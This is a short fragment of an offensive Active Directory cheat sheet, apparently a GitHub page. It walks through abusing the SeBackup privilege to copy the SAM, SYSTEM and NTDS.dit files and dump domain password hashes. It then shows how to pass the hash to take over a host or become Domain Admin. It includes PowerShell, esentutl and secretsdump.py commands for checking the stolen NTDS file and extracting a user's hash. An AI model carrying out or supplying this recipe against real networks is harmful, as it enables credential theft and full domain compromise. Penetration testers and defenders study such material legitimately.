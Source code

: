 ## Quick decision tree

- On **member host** with SeBackup? → Dump **SAM+SYSTEM** → PTH back to **that host**.
    
- On the **DC** (or can snapshot it) with SeBackup? → Copy **NTDS + SYSTEM** → dump **domain** hashes → PTH as **Domain Admin**.
    
- If VSS scripts error, check for **`nowriters`** spelling and **Windows line endings (CRLF)**; otherwise use **`esentutl /vss`**.
    

---

## One‑liner sanity checks

```powershell
# Is ntds.dit big enough (not truncated)?
(Get-Item C:\temp\ntds.dit).Length

# Quick integrity check
cmd /c "esentutl /k C:\temp\ntds.dit"

# Fast test on a single user (proves files are good)
secretsdump.py -ntds ntds.dit -system SYSTEM.save -just-dc-user support LOCAL
```

**TL;DR:**  
**SAM = local** (won’t log into the DC).  
**NTDS = domain** (gets you Domain Admin).  
**SeBackup/SeRestore** lets you read them even without DA—as long as you copy them **cleanly** (VSS/ESENT).
